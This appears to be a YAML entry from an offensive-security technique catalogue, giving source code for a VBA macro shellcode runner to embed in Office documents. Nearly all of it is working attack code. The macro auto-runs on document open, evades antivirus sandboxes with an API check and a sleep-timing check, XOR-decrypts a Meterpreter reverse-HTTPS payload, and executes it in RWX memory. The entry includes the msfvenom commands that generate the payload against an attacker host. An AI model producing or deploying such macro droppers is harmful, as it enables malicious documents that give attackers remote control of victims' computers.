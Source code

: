 ```yaml
---
description: |
  Shellcode runner in a VBA macro can be used inside a Office product. This code make use of encrypted shellcode with XOR and has a Sleep function which ensures that it is not tested against an AV emulator.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    VBA ShellcodeRunner macro to use in Office products

code: |
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
    Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
    Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

    Sub Document_Open()
      ShellcodeRunner
    End Sub

    Sub AutoOpen()
      ShellcodeRunner
    End Sub

    Function ShellcodeRunner()
      Dim buf As Variant
      Dim tmp As LongPtr
      Dim addr As LongPtr
      Dim counter As Long
      Dim data As Long
      Dim res As Long
      Dim dream As Integer
      Dim before As Date
  
      ' Check if we're in a sandbox by calling a rare-emulated API
      If IsNull(FlsAlloc(tmp)) Then
        Exit Function
      End If

      ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
      dream = Int((1500 * Rnd) + 2000)
      before = Now()
      Sleep (dream)
      If DateDiff("s", t, Now()) < dream Then
        Exit Function
      End If

      ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
      buf = Array(31, 33, ..., 33, 37)

      ' XOR-decrypt the shellcode
      For i = 0 To UBound(buf)
        buf(i) = buf(i) Xor Asc("a")
      Next i

      ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
      ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
      addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

      For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
      Next counter

      res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function


items:
    - Shell
services:
    - Antivirus
OS:
    - Windows
attack_types:
    - Persistence
    - Injection
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



